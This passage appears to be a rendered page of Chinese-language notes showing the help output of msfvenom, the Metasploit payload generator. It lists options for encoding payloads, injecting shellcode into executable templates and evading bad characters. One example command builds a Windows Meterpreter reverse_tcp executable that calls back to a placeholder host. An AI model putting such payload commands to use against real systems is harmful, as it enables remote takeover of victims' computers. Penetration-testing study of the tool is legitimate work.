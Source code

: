 ```sh
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
└─$ msfvenom
错误：没有选项
MsfVenom - Metasploit 独立负载生成器。
也是 msfpayload 和 msfencode 的替代品。
用法：/usr/bin/msfvenom [options] <var=val>
示例：/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

选项：
    -l, --list <type> 列出 [type] 的所有模块。类型有：payloads、encoders、nops、platforms、archs、encrypt、formats、all
    -p, --payload <payload> 要使用的有效负载（--list 要列出的有效负载，--list-options 用于参数）。为自定义指定“-”或 STDIN
        --list-options 列出 --payload <value> 的标准、高级和规避选项
    -f, --format <format> 输出格式（使用 --list 格式列出）
    -e, --encoder <encoder> 要使用的编码器（使用 --list 编码器列出）
        --service-name <value> 生成服务二进制文件时使用的服务名称
        --sec-name <value> 生成大型 Windows 二进制文件时使用的新部分名称。默认值：随机 4 个字符的字母字符串
        --smallest 使用所有可用的编码器生成尽可能小的有效载荷
        --encrypt <value> 应用于 shellcode 的加密或编码类型（使用 --list encrypt 列出）
        --encrypt-key <value> 用于 --encrypt 的密钥
        --encrypt-iv <value> --encrypt 的初始化向量
    -a, --arch <arch> 用于 --payload 和 --encoders 的架构（使用 --list archs 列出）
        --platform <platform> --payload 的平台（使用 --list 平台列出）
    -o, --out <path> 将有效负载保存到文件中
    -b, --bad-chars <list> 避免使用的字符示例：'\x00\xff'
    -n, --nopsled <length> 将 [length] 大小的 nopsled 添加到有效负载上
        --pad-nops 使用 -n <length> 指定的 nopsled 大小作为总负载大小，自动预先添加数量的 nopsled（nops 减去负载长度）
    -s, --space <length> 结果有效载荷的最大大小
        --encoder-space <length> 编码有效载荷的最大大小（默认为 -s 值）
    -i, --iterations <count> 编码有效载荷的次数
    -c, --add-code <path> 指定要包含的附加 win32 shellcode 文件
    -x, --template <path> 指定用作模板的自定义可执行文件
    -k, --keep 保留 --template 行为并将有效负载作为新线程注入
    -v, --var-name <value> 指定用于某些输出格式的自定义变量名称
    -t, --timeout <second> 从 STDIN 读取有效负载时等待的秒数（默认为 30，0 表示禁用）
    -h, --help 显示此消息
```

msfvenom --list payload  列出payload




